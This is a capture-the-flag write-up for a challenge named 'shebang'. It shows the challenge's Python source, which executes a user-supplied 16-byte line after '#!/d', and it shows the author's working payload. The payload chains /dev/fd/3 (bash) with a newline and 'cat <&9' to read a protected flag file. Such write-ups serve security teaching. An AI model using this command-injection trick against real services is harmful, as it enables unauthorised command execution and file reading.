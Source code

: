 # shebang
> Difficulty: Easy  
> Author: nopinjector  

Shebang provides us with nice kernel-supported execution functionality since 1980.

Challenge Files : [shebang.py](./shebang.py) [Dockerfile](./Dockerfile) [ynetd](./ynetd)

Given three files, but the most important one is [shebang.py](./shebang.py).

```py
def check_input(data):
    if b'.' in data:
        os._exit(1)

def main():
    os.open('/bin/bash', os.O_RDONLY)
    fd = os.open('./flag', os.O_RDONLY)
    os.dup2(fd, 9)

    path = os.path.join('/tmp', secrets.token_hex(16))

    print("#!/d", end="")
    data = os.read(0, 0x10)
    os.close(0)
    check_input(data)

    fd = os.open(path, os.O_CREAT | os.O_RDWR, 0o777)
    os.write(fd, b'#!/d' + data)
    os.close(fd)

    pid = os.fork()
    if pid == 0:
        os.setresgid(NOGROUP, NOGROUP, NOGROUP)
        os.setresuid(NOBODY, NOBODY, NOBODY)
        try:
            os.execv(path, [path])
        except:
            os._exit(-1)
    else:
        os.waitpid(pid, 0)
        os.unlink(path)
```

It first opens `/bin/bash` (which will place it to file descriptor number 3), then opens flag (which by default place it on file descriptor number 4 / after bash), but then duplicates the fd to fd 9.

It then does the following:
1. Wait for our input (maximum length: 0x10)
2. Check the input, if our input contains dot (`.`), the program will exit.
3. Prepend our input with `#!/d`
4. Write our input on a file in tmp directory
5. Fork process
6. The child process calss `os.execv` on our tmp file

So basically it runs whatever input we are giving by prepending it with `/d`. Then I check for my linux system, there is only one directory on root directory which starts with the letter `d`, that is `/dev/`
```
root@c96f122d9031:/tmp/shebang# ls /dev
core  fd  full  mqueue  null  ptmx  pts  random  shm  stderr  stdin  stdout  tty  urandom  zero
```

Great, we have fd in `dev`. So we can call `bash` again (remember that bash is in fd 3 as mentioned earlier), after that, we can call `cat` to read from fd 9 (which is the file descriptor for flag file).

My first try is using this payload:
`ev/fd/3 cat /dev/fd/9` which I think will be executed as `#!/dev/fd/3 cat /dev/fd/9`, but it doesn't work. Yeah because our input is limited to only 16 bytes.

It turns out that we can pass a file descriptor using <&`fd number`, so in this case:
`ev/fd/3 cat <&9`, but then when I try executing this payload, it gives me error
```
root@c96f122d9031:/tmp/shebang# python3 shebang.py 
ev/fd/3 cat <&9
/dev/fd/3: cat <&9: No such file or directory
```

Since /dev/fd/3 is bash, the error is equivalent as `bash: cat <&9: No such file or directory`.

After googling a little bit, I found this [question](https://unix.stackexchange.com/questions/27054/bin-bash-no-such-file-or-directory) that shows why the error occurs. And it turns out that adding `\n` before `cat` will make the payload work.

```
root@c96f122d9031:/tmp/shebang# python2 -c "print 'ev/fd/3\ncat <&9'" | python3 shebang.py 
THIS IS SUPPOSED TO BE THE FLAG
```